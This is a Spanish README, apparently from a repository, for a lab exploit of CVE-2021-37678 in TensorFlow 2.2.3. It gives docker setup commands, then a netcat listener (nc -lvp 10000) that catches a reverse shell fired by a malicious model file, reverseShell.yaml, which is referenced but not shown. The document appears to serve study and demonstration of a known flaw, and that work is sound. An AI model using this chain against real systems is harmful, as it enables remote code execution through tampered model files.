 # [CVE-2021-37678](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37678) Exploit

Para explotar la vulnerabilidad, es necesario levantar un contenedor docker con un ambiente preparado para levantar Tensorflow con una [versión 2.2.3](https://hub.docker.com/r/tensorflow/tensorflow/tags?page=1&ordering=last_updated&name=2.2.3) la cual todavía tiene la vulnerabilidad.
Consta de:
- Una arquitectura AMD de 64 bits,
- CPU o GPU que puede ejecutar instrucciones AVX
- Python de 64 bits en la versión 3.6.9
- Pip3 en la versión 20.2.4
- Tensorflow en la versión 2.2.3
- PyYAML en la versión 3.12


Verificar si la máquina cuenta con docker ejecutando:
```shell
docker -v
```

Una vez que nuestro sistema operativo tenga docker instalado, correr los siguientes comando en la carpeta raiz de este repositorio para construir y levantar la aplicación:

```shell
docker-compose build
```

```shell
docker-compose up
```

O bien, para levantar sin docker compose:

```shell
docker build -t docker-exploit-tensorflow-vulnerability:1.0 . # para construir la imagen
```
```shell
docker run --add-host=host.docker.internal:host-gateway --name exploit-tensorflow-vulnerability docker-exploit-tensorflow-vulnerability:1.0 # para crear y lanzar el proceso por primera vez
docker start -a exploit-tensorflow-vulnerability # para lanzar el proceso nuevamente
```

Para que el reverse shell funcione, hay que tener [netcat](https://en.wikipedia.org/wiki/Netcat) instalado en la máquina atacante, y levantar un puerto de escucha para una sesión ssh. Ej:
```shell
nc -lvp 10000
```
Luego, se explotará la vulnerabilidad mediante un modelo de IA malicioso, donde lanzaremos la conexión con el atacante.
Hay que configurarle la ip y puerto de escucha del atacante en el archivo [reverseShell.yaml](/src/reverseShell.yaml) 